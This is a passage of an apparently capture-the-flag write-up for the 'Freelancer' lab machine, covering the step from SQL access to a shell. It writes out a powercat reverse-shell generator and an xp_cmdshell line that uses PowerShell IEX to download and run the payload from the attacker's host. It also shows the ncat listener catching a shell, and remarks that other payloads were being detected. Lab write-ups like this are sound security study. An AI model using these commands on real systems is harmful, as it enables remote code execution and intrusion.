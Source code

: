 ## Reverse Shell

Reverse shells from `revshell.com` were getting caught, then I used `powercat`

```bash
└─$ powercat -c 10.10.16.75 -p 4444 -e powershell -g > rev.ps1

┌──(woyag㉿kraken)-[~/Desktop/Rooms/Freelancer]
└─$ serve
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.5 - - [16/Jun/2024 05:15:57] "GET /rev.ps1 HTTP/1.1" 200 -
---
EXECUTE AS LOGIN = 'sa'; 
EXEC xp_cmdshell 'powershell -c IEX ( IWR -UseBasicParsing http://10.10.16.75/rev.ps1 )';
REVERT;
---
└─$ listen
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.5:53976.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\WINDOWS\system32> whoami
freelancer\sql_svc
```

SQL database seems to be living on `sql_svc` user Downloads
```powershell
PS C:\users> tree
Folder PATH listing
Volume serial number is 8954-28AE
C:.
Administrator
lkazanof
lorra199
mikasaAckerman
MSSQLSERVER
Public
   Documents
   Downloads
   Music
   Pictures
   Videos
sqlbackupoperator
sql_svc
    3D Objects
    Contacts
    Desktop
    Documents
    Downloads
       SQLEXPR-2019_x64_ENU
           1033_ENU_LP
              x64
                  1033
                  Setup
                      x64
           redist
              VisualStudioShell
                  VCRuntimes
           resources
              1033
           x64
```